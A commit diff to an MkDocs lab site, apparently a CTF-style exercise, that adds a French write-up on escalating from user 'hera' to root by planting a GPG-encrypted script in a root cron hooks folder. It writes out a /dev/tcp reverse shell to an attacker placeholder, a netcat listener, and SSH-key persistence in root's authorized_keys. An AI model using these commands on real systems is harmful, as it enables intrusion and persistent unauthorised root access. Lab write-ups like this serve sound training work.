

Before and after one commit to 0xbbuddha/pantheon-lab.github.io, an MkDocs documentation site: the page built from docs/writeup/privesc.md, in a window 1280 px wide and 1400 px high, scrolled down 208 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
feat: add writeup privesc hera

````diff
--- a/docs/writeup/privesc.md
+++ b/docs/writeup/privesc.md
@@ -8,9 +8,67 @@ Cette section détaille les techniques d'élévation de privilèges utilisées d
 
 ### 1. Exploitation des Vulnérabilités Locales
 
-### 2. Utilisation des Droits d'Administrateur
+Dans cet environnement, l'utilisateur `hera` dispose de droits suffisants pour exploiter un mécanisme d'élévation de privilèges automatisé.
 
-### 3. Techniques de Persistance
+#### Contexte
+
+Un dossier `/opt/hooks` contient des scripts qui sont automatiquement exécutés par l'utilisateur `root` via une tâche cron toutes les minutes. Cependant, ces scripts sont chiffrés avec GPG, ce qui semble empêcher une modification directe.
+
+#### Analyse du mécanisme
+
+En listant le contenu de `/opt/hooks`, on remarque la présence de scripts chiffrés (extension `.gpg`). Un examen plus approfondi du système révèle que le mot de passe utilisé pour le chiffrement GPG est stocké en clair dans le fichier `~/.bash_history` de l'utilisateur `hera`.
+
+```bash
+cat ~/.bash_history
+```
+
+#### Exploitation
+
+1. **Préparation de l'écoute sur la machine d'attaque** :
+   Avant de déposer le script, il faut lancer un listener netcat sur sa propre machine pour recevoir la connexion :
+
+   ```bash
+   nc -lvnp <PORT>
+   ```
+
+2. **Création d'un reverse shell** :
+   On commence par écrire un script bash qui ouvre un reverse shell vers notre machine d'attaque :
+
+   ```bash
+   bash -i >& /dev/tcp/<IP_ATTAQUANT>/<PORT> 0>&1
+   ```
+
+3. **Chiffrement du script** :
+   On chiffre ce script avec GPG en utilisant le mot de passe récupéré :
+
+   ```bash
+   gpg --symmetric --passphrase <mot_de_passe> reverseshell.sh
+   ```
+   Cela génère un fichier `reverseshell.sh.gpg`.
+
+4. **Dépôt dans /opt/hooks** :
+   On place le fichier chiffré dans `/opt/hooks` :
+
+   ```bash
+   cp reverseshell.sh.gpg /opt/hooks/
+   ```
+
+5. **Attente de l'exécution** :
+   Il suffit alors d'attendre une minute pour que la tâche cron exécutée par root déchiffre et lance le script, ouvrant ainsi un shell root sur la machine d'attaque.
+
+#### Résumé
+
+Ce scénario montre l'importance de ne jamais stocker de mots de passe sensibles en clair, et de bien contrôler les scripts exécutés automatiquement avec des privilèges élevés.
+
+### 2. Techniques de Persistance
+
+Après avoir obtenu un accès root, la méthode de persistance la plus simple et discrète consiste à ajouter sa propre clé publique SSH dans le fichier `~/.ssh/authorized_keys` de l'utilisateur root :
+
+```bash
+echo "<clé_publique>" >> /root/.ssh/authorized_keys
+```
+
+Cela permet de se reconnecter facilement en tant que root sans avoir besoin du mot de passe.
 
 ## Conclusion
 
````
